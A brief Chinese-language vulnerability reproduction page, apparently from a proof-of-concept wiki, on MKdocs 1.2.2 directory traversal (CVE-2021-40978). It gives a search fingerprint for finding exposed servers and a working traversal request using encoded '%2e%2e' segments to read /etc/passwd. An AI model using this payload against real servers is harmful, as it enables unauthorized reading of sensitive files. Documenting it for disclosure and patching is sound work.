 # MKdocs 任意文件读取漏洞 CVE-2021-40978

## 漏洞描述

MKdocs中存在通过 %2e%2e 来遍历目录，读取敏感文件

## 漏洞影响

<a-checkbox checked>Mkdocs 1.2.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="My Docs"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1635243987958-b04a962a-3cd6-44d6-b422-384fbae3be46.png)

验证POC

```php
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1635244110624-38dc3b57-ca8d-4fa1-b073-73b059a6d4be.png)